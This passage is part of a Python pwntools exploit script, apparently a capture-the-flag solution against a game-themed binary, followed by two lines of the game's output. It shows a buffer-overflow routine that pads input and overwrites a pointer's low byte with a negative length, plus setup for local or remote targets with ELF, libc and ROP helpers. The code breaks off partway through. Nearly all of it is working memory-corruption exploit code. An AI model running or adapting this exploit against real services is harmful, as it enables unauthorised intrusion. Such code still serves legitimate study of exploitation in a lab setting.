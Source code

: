 ```python
    else:
        print(resp)
        print('[!] Failed at offset ' + hex(off))
        return


def rebase_pointer_lsb(offset_to_verified, lsb):
    if not(0x10 <= offset_to_verified + OFF_VERIFIED_TO_LSB < 0x110 and \
           0x10 <= offset_to_verified <= 0x110):
        raise Exception('rip bro im lazy splitting the work')

    p.sendline(b'2')
    print(p.recvuntil(b'reason again please: '))
    p.sendline(b'A'*(offset_to_verified-0x10) + p32(-1, signed=True) + p8(lsb))





if __name__ == "__main__":
    parser = argparse.ArgumentParser()

    subparsers = parser.add_subparsers(dest='command')

    parser_local = subparsers.add_parser('local')

    parser_remote = subparsers.add_parser('remote')
    parser_remote.add_argument('host')
    parser_remote.add_argument('port', type=int)

    args = parser.parse_args()

    if args.command == 'local':
        p = process(context.binary.path)
    elif args.command == 'remote':
        p = remote(args.host, args.port)
    else:
        parser.print_help()
        exit(1)

    binary = ELF(context.binary.path)
    libc = ELF("./glibc/libc.so.6")
    rop = ROP(binary)

    #gdb.attach(p, f"b *&main+0x58c")
    #gdb.attach(p)

    input('[continue]')
    print('[*] setting name')
    p.recvuntil(b'What is your name?\n\n> ')
    p.send(b'N'*16)

    print('[*] setting reason')
    p.recvuntil(b'want to join me?\n\n> ')
    p.send(b'R'*256)

    print('[*] setting age')
    p.recvuntil(b'age again?\n\n> ')
    p.sendline(b'-1')


    input('[continue]')
    p.recvuntil(b'in combat?\n\n> ')
```

[Sir Alaric]: Give me your best warcry!!
[Sir Alaric]: That was quite a shot!!